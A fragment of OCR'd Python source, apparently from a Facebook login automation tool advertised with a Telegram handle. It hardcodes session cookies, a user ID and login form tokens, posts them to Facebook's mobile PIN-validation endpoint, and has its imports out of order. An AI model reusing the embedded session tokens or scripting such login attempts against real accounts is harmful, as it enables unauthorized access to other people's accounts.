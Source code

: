 print(f' {F}◆ {S}Telegra/ @VVGGXX {B} ')

print(f'{F} →→→→→→→→→→→→→→→→→→→→→→→→→→→→→ ')
use=0


cookies = {
    'datr': 'iZ2xY04E3jAca46uaLOJLWbL',
    'sb': 'iZ2xYyI7oe2HAXvfOpqjNV2N',
    'locale': 'fa_IR',
    'vpd': 'v1%3B737x393x2.75',
    'wd': '393x737',
    'fr': '03qbkrBnVS1MbxzdF.AWWPF12j03FKAckquOtOJksxRdQ.BjsZ2J.Dd.AAA.0.0.BjtnKl.AWWZYuLXi94',
}

headers = {
    'authority': 'mbasic.facebook.com',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'accept-language': 'fa-IR,fa;q=0.9,en-US;q=0.8,en;q=0.7',
    'cache-control': 'max-age=0',
    # 'cookie': 'datr=iZ2xY04E3jAca46uaLOJLWbL; sb=iZ2xYyI7oe2HAXvfOpqjNV2N; locale=fa_IR; vpd=v1%3B737x393x2.75; wd=393x737; fr=03qbkrBnVS1MbxzdF.AWWPF12j03FKAckquOtOJksxRdQ.BjsZ2J.Dd.AAA.0.0.BjtnKl.AWWZYuLXi94',
    'origin': 'https://mbasic.facebook.com',
    'referer': 'https://mbasic.facebook.com/',
    'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
    'sec-ch-ua-mobile': '?1',
    'sec-ch-ua-platform': '"Android"',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'same-origin',
    'sec-fetch-user': '?1',
    'upgrade-insecure-requests': '1',
    'user-agent': 'Mozilla/5.0 (Linux; Android 4.4.2; Nexus 4 Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.114 Mobile Safari/537.36',
}

params = {
    'refid': '8',
}

data = {
    'lsd': 'AVqAhQPrMiI',
    'jazoest': '2963',
    'uid': '100076526146833',
    'flow': 'login_no_pin',
    'next': '',
}

response = requests.post(
    'https://mbasic.facebook.com/login/device-based/validate-pin/',
    params=params,
    cookies=cookies,
    headers=headers,
    data=data,
)
import urllib3,rich,base64
from rich.table import Table as me
from rich.console import Console as sol
from bs4 import BeautifulSoup as sop
from concurrent.futures import ThreadPoolExecutor as tred
from rich.console import Group as gp
from rich.panel import Panel as nel